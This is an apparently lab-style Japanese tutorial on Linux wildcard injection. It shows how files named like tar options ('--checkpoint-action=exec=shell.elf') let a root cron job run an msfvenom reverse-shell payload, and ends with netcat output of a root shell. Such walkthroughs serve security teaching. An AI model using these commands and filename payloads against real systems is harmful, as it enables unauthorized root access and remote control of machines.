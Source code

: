 ワイルドカード文字 (*) が引数の一部としてコマンドに提供されると、シェルは最初にワイルドカードでファイル名展開 (グロビングとも呼ばれます) を実行します。    
このプロセスにより、ワイルドカードが、現在のディレクトリ内のファイル名とディレクトリ名のスペース区切りのリストに置き換えられます。    
これを実際に確認する簡単な方法は、ホーム ディレクトリから次のコマンドを実行することです。   
```
$ echo *
```
Linux のファイルシステムは通常、ファイル名に対して非常に寛容であり、コマンドが実行される前にファイル名の展開が行われるため、これらの名前でファイルを作成することにより、コマンド ライン オプション (-h、--help など) をコマンドに渡すことができます。   
次のコマンドは、これがどのように機能するかを示しています。  
```
$ ls *
% touch ./-l
$ ls *
```
ファイル名は、-hや--helpのような単純なオプションに限定されるものではありません。   
実際、複雑なオプションにマッチするファイル名を作ることができます。   
--option=key=value   
GTFOBins (https://gtfobins.github.io) は、コマンドにコマンドラインオプションがあるかどうかを判断するのに役立ちます。   
# Privilege Escalation
1. システム全体のcrontabの内容を表示します。
```
$ cat /etc/crontab
...
* * * * * root /usr/local/bin/compress.sh
```
2. usr/local/bin/compress.sh ファイルの内容を表示します。
```
$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```
なお、tarコマンドは/home/userディレクトリでワイルドカードを使用して実行されます。   
3. GTFOBins は、tar にコマンド ライン オプションがあることを示しています。   
これは、チェックポイント機能の一部として他のコマンドを実行するために使用できます。   
4. msfvenom を使用して、リバースシェル ELF ペイロードを作成します
```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=53 -f elf -o shell.elf
```
5. リモートホストの/home/userディレクトリにファイルをコピーし、実行可能な状態にします。
```
$ chmod +x /home/user/shell.elf
```
6. home/userディレクトリに2つのファイルを作成します。
```
$ touch /home/user/--checkpoint=1
$ touch /home/user/--checkpoint-action=exec=shell.elf
```
7. ローカルマシンでnetcatリスナーを実行し、cronジョブが実行されるのを待ちます。ルートユーザーで実行しているリバースシェルが引っかかるはずです。
```
# nc -nvlp 53
listening on [any] 53 ...
connect to [192.168.1.26] from (UNKNOWN) [192.168.1.25] 47362
bash: no job control in this shell
root@debian:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```
